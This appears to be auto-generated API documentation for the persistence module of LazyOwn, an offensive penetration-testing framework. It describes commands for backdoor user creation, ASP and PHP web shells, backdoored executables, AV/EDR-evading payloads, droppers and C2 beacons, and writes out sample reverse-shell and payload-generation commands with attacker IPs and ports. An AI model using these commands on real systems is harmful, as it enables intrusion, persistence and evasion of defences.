


# `cli.commands.persist_migrated`

> Source: [cli/commands/persist_migrated.py:1](../../cli/commands/persist_migrated.py#L1) | language `py` | coverage 96.6% | [API index](../index.md)

persist commands migrated from lazyown.py.

Auto-generated by scripts/migrate_lazyown.py.

## Contents

- **Classes:** [`PersistMigratedCommandSet`](#persistmigratedcommandset)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="persistmigratedcommandset"></a>

### `PersistMigratedCommandSet`

`class` | [cli/commands/persist_migrated.py:32](../../cli/commands/persist_migrated.py#L32)

```python
class PersistMigratedCommandSet(LazyOwnCommandSet)
```

Bases: [`LazyOwnCommandSet`](cli.commands._base.py.md#lazyowncommandset)

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`phase`](#persistmigratedcommandset-phase) |  | `'persist'` |  |
| [`category`](#persistmigratedcommandset-category) |  | `'05. Persistence'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`generate_backdoor_username`](#persistmigratedcommandset-generate_backdoor_username) | staticmethod | Generate a random backdoor username (same shape as C2 operators). |
| [`generate_backdoor_password`](#persistmigratedcommandset-generate_backdoor_password) | staticmethod | Generate a random backdoor password safe for assign, chpasswd and CLIs. |
| [`resolve_backdoor_creds`](#persistmigratedcommandset-resolve_backdoor_creds) | staticmethod | Return configured creds, or fresh random ones when unset. |
| [`do_pwncat`](#persistmigratedcommandset-do_pwncat) | method | Runs `pwncat` with the specified port for listening. |
| [`do_ftp`](#persistmigratedcommandset-do_ftp) | method | Connects to an ftp host using credentials from a file and a specified port. |
| [`do_rdp`](#persistmigratedcommandset-do_rdp) | method | Reads credentials from a file, encrypts the password, and executes the RDP connection command. |
| [`do_grisun0`](#persistmigratedcommandset-do_grisun0) | method | Creates and copies a shell command to add a new user, assign a password, add the user to the sudo group, and switch to the user. |
| [`do_grisun0w`](#persistmigratedcommandset-do_grisun0w) | method | Creates and copies a PowerShell command to add a new user, assign a password, add the user to the Administrators group, and switch to the user. |
| [`do_asprevbase64`](#persistmigratedcommandset-do_asprevbase64) | method | Creates a base64 encoded ASP reverse shell payload and copies it to the clipboard. |
| [`do_weevelygen`](#persistmigratedcommandset-do_weevelygen) | method | Generate a PHP backdoor using Weevely, protected with the given password. |
| [`do_weevely`](#persistmigratedcommandset-do_weevely) | method | Connect to PHP backdoor using Weevely, protected with the given password. |
| [`do_backdoor_factory`](#persistmigratedcommandset-do_backdoor_factory) | method | Creates a backdoored executable using `backdoor-factory`. |
| [`do_msfpc`](#persistmigratedcommandset-do_msfpc) | method | Generates payloads using MSFvenom Payload Creator (MSFPC). |
| [`do_ivy`](#persistmigratedcommandset-do_ivy) | method | Generates payloads using Ivy with various options. |
| [`do_veil`](#persistmigratedcommandset-do_veil) | method | Generates payloads using Veil-Evasion with various options. |
| [`do_scarecrow`](#persistmigratedcommandset-do_scarecrow) | method | Executes ScareCrow with various options for bypassing EDR solutions and executing shellcode. to create the shellcode.bin you need run venom or run... |
| [`do_generate_revshell`](#persistmigratedcommandset-do_generate_revshell) | method | Generate a reverse shell in various programming languages. |
| [`do_dr0p1t`](#persistmigratedcommandset-do_dr0p1t) | method | Execute the Dr0p1t tool to create a stealthy malware dropper. |
| [`do_paranoid_meterpreter`](#persistmigratedcommandset-do_paranoid_meterpreter) | method | Creates and deploys a paranoid Meterpreter payload and listener with SSL/TLS pinning and UUID tracking. |
| [`do_setoolKits`](#persistmigratedcommandset-do_setoolkits) | method | Executes the SEToolKit workflow to generate a Meterpreter payload and configure the multi-handler using LHOST and LPORT from self.params. |
| [`do_darkarmour`](#persistmigratedcommandset-do_darkarmour) | method | Uses the darkarmour tool to generate an undetectable version of a PE executable. |
| [`do_knokknok`](#persistmigratedcommandset-do_knokknok) | method | Send special string to trigger a reverse shell, with the command 'c2 client_name' create a listener shell script to drop the reverse shell in python3 |
| [`do_listener_go`](#persistmigratedcommandset-do_listener_go) | method | Configures and starts a listener for a specified victim. |
| [`do_listener_py`](#persistmigratedcommandset-do_listener_py) | method | Configures and starts a listener for a specified victim. |
| [`do_service`](#persistmigratedcommandset-do_service) | method | Creates a systemd service file for a specified binary and generates a script to enable and start the service. |
| [`do_toctoc`](#persistmigratedcommandset-do_toctoc) | method | Sends a magic packet to the Chinese malware. |
| [`do_beaconcfg`](#persistmigratedcommandset-do_beaconcfg) | method | Generate a C2 beacon profile with traffic morphing and domain fronting. |

<a id="persistmigratedcommandset-generate_backdoor_username"></a>

#### `PersistMigratedCommandSet.generate_backdoor_username`

`staticmethod` | [cli/commands/persist_migrated.py:37](../../cli/commands/persist_migrated.py#L37)

Decorators: `@staticmethod`

```python
def generate_backdoor_username() -> str
```

Generate a random backdoor username (same shape as C2 operators).

**Returns:** `str`

*Called by:* [`PersistMigratedCommandSet.resolve_backdoor_creds`](#persistmigratedcommandset-resolve_backdoor_creds)

<a id="persistmigratedcommandset-generate_backdoor_password"></a>

#### `PersistMigratedCommandSet.generate_backdoor_password`

`staticmethod` | [cli/commands/persist_migrated.py:43](../../cli/commands/persist_migrated.py#L43)

Decorators: `@staticmethod`

```python
def generate_backdoor_password() -> str
```

Generate a random backdoor password safe for assign, chpasswd and CLIs.

Excludes every character rejected by `[`apply_assign`](cli.assign.py.md#apply_assign)` (shell
metacharacters) plus ``:`` (chpasswd delimiter) and quotes.

**Returns:** `str`

*Called by:* [`PersistMigratedCommandSet.resolve_backdoor_creds`](#persistmigratedcommandset-resolve_backdoor_creds)

<a id="persistmigratedcommandset-resolve_backdoor_creds"></a>

#### `PersistMigratedCommandSet.resolve_backdoor_creds`

`staticmethod` | [cli/commands/persist_migrated.py:53](../../cli/commands/persist_migrated.py#L53)

Decorators: `@staticmethod`

```python
def resolve_backdoor_creds(params: dict) -> tuple[str, str]
```

Return configured creds, or fresh random ones when unset.

Pure function (no I/O): callers persist via ``assign`` when the
returned values differ from the placeholders.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `params` | `dict` |  |  |

**Returns:** `tuple[str, str]`

*Calls:* [`PersistMigratedCommandSet.generate_backdoor_password`](#persistmigratedcommandset-generate_backdoor_password), [`PersistMigratedCommandSet.generate_backdoor_username`](#persistmigratedcommandset-generate_backdoor_username)

<a id="persistmigratedcommandset-do_pwncat"></a>

#### `PersistMigratedCommandSet.do_pwncat`

`method` | [cli/commands/persist_migrated.py:91](../../cli/commands/persist_migrated.py#L91)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_pwncat(self, line)
```

Runs `pwncat` with the specified port for listening.

SELFINJECT

This function starts a `pwncat` listener on the specified local port. It can use a port defined in the `lport` parameter or a port provided as an argument.

Usage:
    pwncatcs <port>


Manual execution:
1. Ensure that `pwncat-cs` is installed and accessible from your command line.
2. The port number can either be provided as an argument or be assign in the `lport` parameter of the function.
3. Run the function to start `pwncat-cs` on the specified port.

If no port is provided as an argument, the function will use the port specified in the `lport` parameter. If a port is provided, it overrides the `lport` value.

After starting the listener, the function prints a message indicating that `pwncat-cs` is running on the specified port and another message when the session is closed.

Dependencies:
- `pwncat-cs`: A tool used for creating reverse shells or bind shells.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The port number to use for the `pwncat-cs` listener. If not provided, it defaults to the `lport` parameter. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_ftp"></a>

#### `PersistMigratedCommandSet.do_ftp`

`method` | [cli/commands/persist_migrated.py:135](../../cli/commands/persist_migrated.py#L135)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_ftp(self, line)
```

Connects to an ftp host using credentials from a file and a specified port.

This function performs the following actions:
1. Retrieves the remote host (`self.params['rhost']`) from the parameters.
2. Checks if the `self.params['rhost']` is valid using the [`check_rhost`](core.validators.py.md#check_rhost) function.
3. Sets the ftp port to the value provided in the `line` parameter.
4. Checks if the `credentials.txt` file exists in the `./sessions` directory.
5. Reads credentials (username and password) from the `credentials.txt` file, where each line is formatted as `user:password`.
6. Constructs and executes an ftp command using `sshpass` to handle password authentication and `ftp` to initiate the connection.
7. Displays the ftp command being executed.

Usage:
    ftp <port>


Manual execution:
To manually use this function:
1. Ensure `sessions/credentials.txt` exists and contains valid ftp credentials in the format `user:password`.
2. Run the function with the port number as an argument.
3. The function will attempt to connect to the ftp host using each assign of credentials and the specified port.

Note: Ensure `sshpass` is installed on your system for password-based SSH authentication. If `sshpass` is not available, you may need to install it or use an alternative method for SSH authentication.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The port number to use for the ftp connection. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`set_sshpass_env`](core.hardening.py.md#set_sshpass_env), [`copy2clip`](utils.py.md#copy2clip), [`get_credentials`](utils.py.md#get_credentials)

<a id="persistmigratedcommandset-do_rdp"></a>

#### `PersistMigratedCommandSet.do_rdp`

`method` | [cli/commands/persist_migrated.py:194](../../cli/commands/persist_migrated.py#L194)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_rdp(self, line)
```

Reads credentials from a file, encrypts the password, and executes the RDP connection command.

1. Reads credentials:
    - Reads the username and password from the `sessions/credentials.txt` file.

2. Encrypts the password:
    - Uses `remmina --encrypt-password` to encrypt the password obtained from the file.

3. Executes the RDP connection command:
    - Uses the encrypted password to construct and execute the `remmina -c` command to initiate the RDP connection.


Manual execution:
To manually execute the command:
- Ensure `sessions/credentials.txt` contains the credentials in the format `username:password`.
- Run the `rdp` command to read the credentials, encrypt the password, and connect to the RDP server.
Example usage: `rdp`

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This function does not use any arguments. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`safe_clipboard_copy`](core.hardening.py.md#safe_clipboard_copy)

<a id="persistmigratedcommandset-do_grisun0"></a>

#### `PersistMigratedCommandSet.do_grisun0`

`method` | [cli/commands/persist_migrated.py:268](../../cli/commands/persist_migrated.py#L268)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_grisun0(self, line)
```

Creates and copies a shell command to add a new user, assign a password, add the user to the sudo group, and switch to the user.

Uses backdoor_username, backdoor_password, and backdoor_linux_home from payload.json.

1. Displays the command:
    - Prints the command to add the user with the configured home directory, assign the password, add the user to the `sudo` group, assign the appropriate permissions, and switch to the user.

2. Copies the command to clipboard:
    - Uses `xclip` to copy the command to the clipboard for easy pasting.


Manual execution:
To manually execute the command:
- Copy the command from the clipboard.
- Run it in a terminal to create the user and assign up the permissions as specified.
Note: Ensure `xclip` is installed and available on your system.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This function does not use any arguments. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`safe_clipboard_copy`](core.hardening.py.md#safe_clipboard_copy)

<a id="persistmigratedcommandset-do_grisun0w"></a>

#### `PersistMigratedCommandSet.do_grisun0w`

`method` | [cli/commands/persist_migrated.py:312](../../cli/commands/persist_migrated.py#L312)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_grisun0w(self, line)
```

Creates and copies a PowerShell command to add a new user, assign a password, add the user to the Administrators group, and switch to the user.

Uses backdoor_username and backdoor_password from payload.json.

1. Displays the command:
    - Prints the PowerShell command to add the user, assign the password, add the user to the `Administrators` group, and switch to the user.

2. Copies the command to clipboard:
    - Uses `clip` to copy the command to the clipboard for easy pasting.


Manual execution:
To manually execute the command:
- Copy the command from the clipboard.
- Run it in a PowerShell terminal to create the user and assign the permissions as specified.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This function does not use any arguments. |

**Returns:** None

*Calls:* [`escape_powershell_single_quoted`](core.hardening.py.md#escape_powershell_single_quoted), [`copy2clip`](utils.py.md#copy2clip)

<a id="persistmigratedcommandset-do_asprevbase64"></a>

#### `PersistMigratedCommandSet.do_asprevbase64`

`method` | [cli/commands/persist_migrated.py:354](../../cli/commands/persist_migrated.py#L354)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_asprevbase64(self, line)
```

Creates a base64 encoded ASP reverse shell payload and copies it to the clipboard.

1. Checks if a base64 encoded payload is provided:
    - If no payload is provided, displays an error message and exits the function.

2. If a payload is provided:
    - Creates an ASP script that uses `WScript.Shell` to execute a PowerShell command encoded in base64.
    - The created ASP script writes the result of the PowerShell command to the response output.
    - Uses `xclip` to copy the ASP script to the clipboard with the provided base64 encoded payload.


Manual execution:
To manually create the ASP payload:
- Ensure you have the base64 encoded payload ready.
- Use `xclip` to copy the provided command to the clipboard.

Note: Ensure `xclip` is installed and available on your system. For help on creating the base64 encoded payload, see `help winbase64payload`.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The base64 encoded payload to be used in the ASP reverse shell. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_weevelygen"></a>

#### `PersistMigratedCommandSet.do_weevelygen`

`method` | [cli/commands/persist_migrated.py:392](../../cli/commands/persist_migrated.py#L392)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_weevelygen(self, line)
```

Generate a PHP backdoor using Weevely, protected with the given password.

This function generates a PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.

Usage:
┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]
└╼ $ weevelygen s3cr3t

line (str): The password to protect the generated PHP backdoor.

None

print_error: If the password argument is not provided.
print_warn: If Weevely is not installed and needs to be installed.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
To generate a PHP backdoor protected with the password 's3cr3t', use the following command:
$ weevelygen s3cr3t
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="persistmigratedcommandset-do_weevely"></a>

#### `PersistMigratedCommandSet.do_weevely`

`method` | [cli/commands/persist_migrated.py:432](../../cli/commands/persist_migrated.py#L432)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_weevely(self, line)
```

Connect to PHP backdoor using Weevely, protected with the given password.

This function Connect to PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.

Usage:
┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]
└╼ $ weevely http://victim.local/weevely.php s3cr3t

line (str): the url to Weevely shell and the password to protect the generated PHP backdoor.

None

print_error: If the password argument is not provided.
print_warn: If Weevely is not installed and needs to be installed.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
To generate a PHP backdoor protected with the password 's3cr3t', use the following command:
$ weevelygen s3cr3t
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="persistmigratedcommandset-do_backdoor_factory"></a>

#### `PersistMigratedCommandSet.do_backdoor_factory`

`method` | [cli/commands/persist_migrated.py:478](../../cli/commands/persist_migrated.py#L478)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_backdoor_factory(self, line)
```

Creates a backdoored executable using `backdoor-factory`.

This function checks if `backdoor-factory` is installed, installs it if necessary, and then uses it to
inject a reverse shell payload into a specified binary file. The binary is backdoored with a
reverse shell payload that connects back to a specified host and port.


Manual execution:
To manually create a backdoored executable, use the following command:
    backdoor-factory -f <file_path> -H <self.params['lhost']> -P <lport> -s reverse_shell_tcp_inline -J -a -c -l 128 -o <output_file>

Replace `<file_path>` with the path to the binary you want to backdoor, `<self.params['lhost']>` with the IP address of
the attacker’s machine, and `<lport>` with the port number to listen on. The `<output_file>` is the path
where the backdoored binary will be saved.

For example:
    backdoor-factory -f /usr/share/windows-binaries/plink.exe -H 192.168.1.202 -P 4444 -s reverse_shell_tcp_inline -J -a -c -l 128 -o sessions/backdoor_factory.exe

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | The absolute path to the file that will be backdoored. If not provided, the user is prompted to enter the path. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`check_lhost`](core.validators.py.md#check_lhost), [`check_lport`](core.validators.py.md#check_lport)

<a id="persistmigratedcommandset-do_msfpc"></a>

#### `PersistMigratedCommandSet.do_msfpc`

`method` | [cli/commands/persist_migrated.py:524](../../cli/commands/persist_migrated.py#L524)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_msfpc(self, line)
```

Generates payloads using MSFvenom Payload Creator (MSFPC).

This function checks if `msfpc` is installed and installs it if necessary. It then runs `msfpc`
with the specified parameters to create a payload for penetration testing.


Manual execution:
To manually generate a payload using MSFPC, use the following command:
    msfpc <TYPE> <DOMAIN/IP> <PORT> <CMD/MSF> <BIND/REVERSE> <STAGED/STAGELESS> <TCP/HTTP/HTTPS/FIND_PORT> <BATCH/LOOP> <VERBOSE>

Replace the placeholders with the desired values. For example:
    msfpc windows 192.168.1.10 4444 reverse stageless tcp verbose

Example usage:
    msfpc windows 192.168.1.10        # Windows & manual IP.
    msfpc elf bind eth0 4444          # Linux, eth0's IP & manual port.
    msfpc stageless cmd py https      # Python, stageless command prompt.
    msfpc verbose loop eth1           # A payload for every type, using eth1's IP.
    msfpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="persistmigratedcommandset-do_ivy"></a>

#### `PersistMigratedCommandSet.do_ivy`

`method` | [cli/commands/persist_migrated.py:605](../../cli/commands/persist_migrated.py#L605)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_ivy(self, line)
```

Generates payloads using Ivy with various options.

Ivy is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.

This function checks if `Ivy` is installed and installs it if necessary. It then runs `Ivy`
with the specified parameters to create various payloads.


Manual execution:
To manually generate a payload using Ivy, use the following command:
    ./Ivy <OPTIONS>

Replace the placeholders with the desired values. For example:
    ./Ivy -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
    ./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -process64 C:\windows\system32\notepad.exe -process32 C:\windows\SysWOW64\notepad.exe -O stageless.js

Example usage:
    ivy staged_inject -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
    ivy stageless_local -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O stageless.js
    ivy one_liner -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="persistmigratedcommandset-do_veil"></a>

#### `PersistMigratedCommandSet.do_veil`

`method` | [cli/commands/persist_migrated.py:705](../../cli/commands/persist_migrated.py#L705)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_veil(self, line)
```

Generates payloads using Veil-Evasion with various options.

Veil-Evasion is a payload creation framework for generating payloads that evade antivirus detection. This function checks if `Veil-Evasion` is installed and installs it if necessary. It then runs `Veil-Evasion` with the specified parameters to create various payloads.

Manual execution:
To manually generate a payload using Veil-Evasion, use the following command:
    ./Veil-Evasion.py -p <PAYLOAD> --<OPTION> <VALUE>

Replace the placeholders with the desired values. For example:
    ./Veil-Evasion.py -p python/meterpreter/rev_https LHOST=192.168.1.100 LPORT=443

Example usage:
    veil python_meterpreter_rev_https LHOST=192.168.1.100 LPORT=443
    veil ruby_meterpreter_rev_tcp LHOST=192.168.1.100 LPORT=4444

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`check_lhost`](core.validators.py.md#check_lhost), [`check_lport`](core.validators.py.md#check_lport)

<a id="persistmigratedcommandset-do_scarecrow"></a>

#### `PersistMigratedCommandSet.do_scarecrow`

`method` | [cli/commands/persist_migrated.py:779](../../cli/commands/persist_migrated.py#L779)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_scarecrow(self, line)
```

Executes ScareCrow with various options for bypassing EDR solutions and executing shellcode. to create the shellcode.bin you need run venom or run lazymsfvenom, or run msfvenom yourself :D

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used directly but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="persistmigratedcommandset-do_generate_revshell"></a>

#### `PersistMigratedCommandSet.do_generate_revshell`

`method` | [cli/commands/persist_migrated.py:897](../../cli/commands/persist_migrated.py#L897)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_generate_revshell(self, line)
```

Generate a reverse shell in various programming languages.

This function prompts the user to choose a reverse shell type (Bash, Python, NetCat, PHP, Ruby, Perl, Telnet, NodeJS, Golang, PowerShell)
and then asks for the necessary parameters (IP and port). Based on the user's input, it generates the corresponding
reverse shell command.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip)

<a id="persistmigratedcommandset-do_dr0p1t"></a>

#### `PersistMigratedCommandSet.do_dr0p1t`

`method` | [cli/commands/persist_migrated.py:963](../../cli/commands/persist_migrated.py#L963)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_dr0p1t(self, line)
```

Execute the Dr0p1t tool to create a stealthy malware dropper.

This function prompts the user to input the necessary parameters for
generating a dropper, including the malware URL, persistence options,
and additional configurations. Based on the user's input, it constructs
the command and executes it.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="persistmigratedcommandset-do_paranoid_meterpreter"></a>

#### `PersistMigratedCommandSet.do_paranoid_meterpreter`

`method` | [cli/commands/persist_migrated.py:1026](../../cli/commands/persist_migrated.py#L1026)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_paranoid_meterpreter(self, line)
```

Creates and deploys a paranoid Meterpreter payload and listener with SSL/TLS pinning and UUID tracking.

This function performs the following actions:
1. Generates a self-signed SSL/TLS certificate for payload encryption.
2. Creates either staged or stageless Meterpreter payloads with UUID tracking and TLS pinning.
3. Configures and launches a Metasploit listener for the payload.

line (str): Command arguments specifying target configurations.
            Expected format:
                - self.params['rhost'] self.params['lhost'] self.params['domain'] subdomain

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_setoolkits"></a>

#### `PersistMigratedCommandSet.do_setoolKits`

`method` | [cli/commands/persist_migrated.py:1114](../../cli/commands/persist_migrated.py#L1114)

Decorators: `@cmd2.with_category('05. Persistence')`

```python
def do_setoolKits(self, line)
```

Executes the SEToolKit workflow to generate a Meterpreter payload and configure the multi-handler using LHOST and LPORT from self.params.

Usage:
    do_setoolKits

Workflow:
    1. Launches SEToolKit.
    2. Navigates to option 1 (Social-Engineering Attacks).
    3. Selects option 9 (Powershell Alphanumeric Shellcode Injector).
    4. Configures LHOST and LPORT using values from self.params.
    5. Generates a Meterpreter reverse HTTPS payload.
    6. Configures a multi-handler to listen for incoming connections.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Raises**

- `ValueError`: (raised in the body, not documented)

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="persistmigratedcommandset-do_darkarmour"></a>

#### `PersistMigratedCommandSet.do_darkarmour`

`method` | [cli/commands/persist_migrated.py:1147](../../cli/commands/persist_migrated.py#L1147)

